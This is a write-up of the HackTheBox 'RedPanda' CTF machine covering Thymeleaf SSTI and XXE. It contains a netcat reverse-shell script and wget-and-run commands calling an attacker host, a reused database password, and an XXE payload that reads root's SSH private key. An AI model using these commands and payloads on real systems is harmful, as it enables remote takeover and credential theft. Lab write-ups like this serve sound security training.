



# RedPanda

RedPanda is a CTF from HackTheBox which focusses SSTI(Server Side Template Injection), XXE(XML External Entity) and your ability to read and understand the code functioning on a WebApp. It requires you to go looking for code, understanding what variables can be exploited and good old trial and error.

## Enumeration

Starting off wih an nmap scan, we first run a command like this:

```vim
nmap -Pn -sV -sC -v <TARGET_IP>
```



This shows that port 22 and 8080 are open, which means that our WebApp will be accessible on port 8080.

Lookup http://<TARGET_IP>:8080/ and it will take you to a page that looks like this:



Looking at the source code, There is this line which seems to be interesting:

```html
<title>Red Panda Search | Made with Spring Boot</title>
```

SpringBoot is a module of spring framework which is used to create stand-alone, production-grade Spring based Applications with minimum programmer’s efforts. It is developed on top of core spring framework. The main concept behind spring boot is to avoid lot of boilerplate code and configuration to improve development, unit test etc.

I tried vulnerabilities like SQLi but that didn't seem to do me much, so I decided to look for vulnerabilities in SpringBoot. The default SpringBoot WebApp comes with 3 dependencies i.e, SpringMVC, Jetty and Thymeleaf. (https://spring.io/guides/gs/spring-boot/). These will be key in discovering vulnerability needed to exploit this machine.

## Exploit

Right away, Thymeleaf seems to have an SSTI vulnerability i.e, User input is embedded in a template in an unsafe manner and results in remote code execution on the server. Thymeleaf is based on Java, so the injection will obviously be java-based. We start looking for java SSTI payloads and we can find out 2 important details:

1. Java SSTI payloads usually begin with `$` but can also use `*` as a prefix.
2. Certain payloads will allow you to view only a part of the desired response, so the ideal payload is usually constructed with individual characters being concatenated.

There are many Java SSTI payload generators, here are 2 generators that you can use:

1. https://github.com/VikasVarshney/ssti-payload
2. https://github.com/adeiarias/Java-SSTI-generator

With this in hand, you would assume that just running a simple revshell payload would be enough. Unfortunately, getting a foothold will require a little bit more work. Firstly we have to make a shell script with our rev shell:

```vim
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc (HOST-IP) (PORT) >/tmp/f' > shell.sh
```

This script is what we will use to execute a reverse shell, run `python -m http.server <PORT>` on the directory with the shell script on it and `nc -lvnp (PORT)` to catch the reverse shell.

We can use the following combination of commands (which need to be made into payloads with the above provided generators) to get a shell:

```vim
wget http://<HOST_IP>:<PORT>/shell.sh

chmod 777 shell.sh

./shell.sh
```

With this, you can view the user.txt at /home/woodenk/user.txt

## Priv-Esc

To be able to understand how the Priv-Esc works, we need to understand the other functionality in the web app: the credit system.

Simply leave the search bar empty and press enter, you will be able to see a screen like this:



Click on the woodenk hyperlink and you will be redirected to the `/stats?author=woodenk` page. In this page, we can view the stats for each author and see how many views their respective panda's have had. We can also export a table containing information about the author and their pandas. This all leads to the understanding that there is some backend code that is running in order to facilitate this functionality.

I have tried linPEAS and linEnum but they didn't give me any insight for attack vectors, so the only option is to view the backend and try to find any flaws.

Upon searching the machine for java backend, we come across 2 files which are of importance to us:
1. /opt/panda_search/src/main/java/com/panda_search/htb/panda_search/MainController.java
2. /opt/credit-score/LogParser/final/src/main/java/com/logparser/App.java

### MainController.java

```java
@GetMapping(value="/export.xml", produces = MediaType.APPLICATION_OCTET_STREAM_VALUE)
	public @ResponseBody byte[] exportXML(@RequestParam(name="author", defaultValue="err") String author) throws IOException {

		System.out.println("Exporting xml of: " + author);
		if(author.equals("woodenk") || author.equals("damian"))
		{
			InputStream in = new FileInputStream("/credits/" + author + "_creds.xml");
			System.out.println(in);
			return IOUtils.toByteArray(in);
		}
...
```

This essentially means that when `/export.xml` gets called and if the authors name is woodenk or damian, then it downloads the xml file in `/credits` about the respective author.

```java
try {
            Class.forName("com.mysql.cj.jdbc.Driver");
            conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/red_panda", "woodenk", "RedPandazRule");
...
```

This snipet of code is used to make a connection to the MySQL server and shows that the database password is `RedPandazRule`. This same password can be used to make an ssh session with the woodenk username.

### App.java

``` java
public static Map parseLog(String line) {
        String[] strings = line.split("\\|\\|");
        Map map = new HashMap<>();
        map.put("status_code", Integer.parseInt(strings[0]));
        map.put("ip", strings[1]);
        map.put("user_agent", strings[2]);
        map.put("uri", strings[3]);
...
```
This snipet of code is for reading the log file where it parses information to a map and is seperated by `||`.

```java
public static String getArtist(String uri) throws IOException, JpegProcessingException
    {
        String fullpath = "/opt/panda_search/src/main/resources/static" + uri;
        File jpgFile = new File(fullpath);
        Metadata metadata = JpegMetadataReader.readMetadata(jpgFile);
        for(Directory dir : metadata.getDirectories())
        {
            for(Tag tag : dir.getTags())
            {
                if(tag.getTagName() == "Artist")
                {
                    return tag.getDescription();
                }

```

This snipet of code is checking if the file path (see that `uri` is being referenced here from above code snipper) leads to a jpg file and reads the metadata of the jpg file, extracting the `Artist` Tag.

```java
public static void main(String[] args) throws JDOMException, IOException, JpegProcessingException {
        File log_fd = new File("/opt/panda_search/redpanda.log");
        Scanner log_reader = new Scanner(log_fd);
        while(log_reader.hasNextLine())
        {
            String line = log_reader.nextLine();
            if(!isImage(line))
            {
                continue;
            }
            Map parsed_data = parseLog(line);
            System.out.println(parsed_data.get("uri"));
            String artist = getArtist(parsed_data.get("uri").toString());
            System.out.println("Artist: " + artist);
            String xmlPath = "/credits/" + artist + "_creds.xml";
            addViewTo(xmlPath, parsed_data.get("uri").toString());
        }
```

In this code snippet, the main function is reading log files from where it obtains the `uri` variable, the `Artist` tag from image metadata and the xml export data filepath and parses data to the the `addViewto` function

```java
public static void addViewTo(String path, String uri) throws JDOMException, IOException
    {
        SAXBuilder saxBuilder = new SAXBuilder();
        XMLOutputter xmlOutput = new XMLOutputter();
        xmlOutput.setFormat(Format.getPrettyFormat());

        File fd = new File(path);
        
        Document doc = saxBuilder.build(fd);
        
        Element rootElement = doc.getRootElement();
 
        for(Element el: rootElement.getChildren())
        {
    
            
            if(el.getName() == "image")
            {
                if(el.getChild("uri").getText().equals(uri))
                {
                    Integer totalviews = Integer.parseInt(rootElement.getChild("totalviews").getText()) + 1;
                    System.out.println("Total views:" + Integer.toString(totalviews));
                    rootElement.getChild("totalviews").setText(Integer.toString(totalviews));
                    Integer views = Integer.parseInt(el.getChild("views").getText());
                    el.getChild("views").setText(Integer.toString(views + 1));
                }
            }
        }
        BufferedWriter writer = new BufferedWriter(new FileWriter(fd));
        xmlOutput.output(doc, writer);
    }
```

In this code snippet, the `addViewto` function is reading the xml data in the xml export data filepath and cross-checking the `uri` from logs, and adding a view to `totalviews` and writing that back to the xml export data file.


### Explanation

`App.java` defines how the WebApp logs requests, extracts `Artist` Tag from the panda images and cross checks information as well as edits the xml file that can be exported from `/export.xml`. Here, there are 3 things which are of importance to us:

1. uri
2. Artist 
3. Exportable XML file

All 3 of these have variables that can be edited by the user, which makes them possible attack vectors. This works by having the `uri` lead to an image on the target system where the `Artist` tag has been edited to lead to an XML file which has some form of XXE payload in order to obtain root.

### Performing the attack:

Follow the steps to achieve priv-esc:

1. Download an image from the WebApp, it doesn't matter which one. In the attacker machine, run `exiftool <IMAGE> -Artist=../home/woodenk/lol`. This will edit the Artist tag to lead to another XML file.
2. Export an XML file from any artist, name it `lol_creds.xml` and make it look like this:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///root/.ssh/id_rsa"> ]>
<credits>
  <author>woodenk</author>
  <image>
    <uri>/../../../../../../../home/woodenk/<IMAGE></uri>
    <lol>&ent;</lol>
    <views>1</views>
  </image>
  <totalviews>0</totalviews>
</credits>
```
3. Use `python -m http.server 8000` (Attacker machine) and `wget http://<HOST_IP>:8000/(THE IMAGE FILE AND XML FILE)` (Target machine) to get the edited image and `lol_creds.xml` to the target machine's home directory (`/home/woodenk/`)
4. Run `curl -v -H "User-Agent:||/../../../../../../../home/woodenk/<IMAGE>" http://10.10.11.170:8080`
5. Wait a minute and run `cat lol_creds.xml`. You will see the private key which we can use to ssh into the machine as root.
6. Copy the private key and save it to `id_rsa` and run `ssh root@<IP_ADDR> -i id_rsa` and you will be able to log in.
7. Root flag is at `/root/root.txt`
